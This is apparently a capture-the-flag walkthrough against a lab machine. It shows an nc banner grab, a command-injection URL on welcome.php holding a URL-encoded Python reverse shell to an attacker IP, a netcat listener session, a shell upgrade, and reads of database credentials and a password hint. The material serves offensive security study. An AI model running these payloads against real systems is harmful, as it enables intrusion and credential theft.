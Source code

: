 
```bash
nc -vn 10.10.4.197 21
Connection to 10.10.4.197 21 port [tcp/*] succeeded!
220 (vsFTPd 3.0.5)
whoami
530 Please login with USER and PASS.
```

<h3>TargetIP/elcome.php?x=id</h3>

<img width="1107" height="226" alt="image" src="https://github.com/user-attachments/assets/6be68cb2-68f4-493d-aa22-af466563915e" />

```bash
http://10.10.4.197/welcome.php?x=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.178.72%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22bash%22)%27
```


```bash
nc -nlvp 4444
...
www-data@ip-10-10-4-197:/var/www/html$ which python3
which python3
/usr/bin/python3
www-data@ip-10-10-4-197:/var/www/html$ ls
ls
config.php  index.php  logout.php  welcome.php
ww-data@ip-10-10-4-197:/home/adrian$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ian$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-4-197:/home/adrian$ ^Z
[1]+  Stopped                 nc -nlvp 4444
:~# stty raw -echo; fg
nc -nlvp 4444
www-data@ip-10-10-4-197:/var/www/html$ ls
config.php  index.php  logout.php  welcome.php
www-data@ip-10-10-4-197:/var/www/html$ cat config.php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'adrian');
define('DB_PASSWORD', 'P@sswr0d789!');
define('DB_NAME', 'website');
```


```bash
www-data@ip-10-10-4-197:/home/adrian$ cat .reminder
Rules:
best of 64
+ exclamation

ettubrute
www-data@ip-10-10-4-197:/home/adrian$ 
```
